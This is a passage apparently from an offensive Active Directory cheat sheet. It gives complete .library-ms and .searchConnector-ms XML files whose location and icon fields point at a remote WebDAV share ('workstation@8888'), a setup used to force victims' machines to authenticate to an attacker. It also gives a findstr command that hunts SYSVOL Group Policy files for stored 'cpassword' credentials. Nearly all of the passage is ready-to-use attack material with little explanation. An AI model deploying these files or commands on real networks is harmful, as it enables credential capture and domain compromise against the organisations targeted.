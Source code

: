 > Windows Library Files (.library-ms)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
  <name>@windows.storage.dll,-34582</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

#### Windows Search Connectors Files

> Windows Search Connectors (.searchConnector-ms)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="<http://schemas.microsoft.com/windows/2009/searchConnector>">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>\\\\workstation@8888\\folder.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
    </simpleLocation>
</searchConnectorDescription>
```


### Passwords in SYSVOL & Group Policy Preferences

Find password in SYSVOL (MS14-025). SYSVOL is the domain-wide share in Active Directory to which all authenticated users have read access. All domain Group Policies are stored here: `\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`.

```powershell
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```
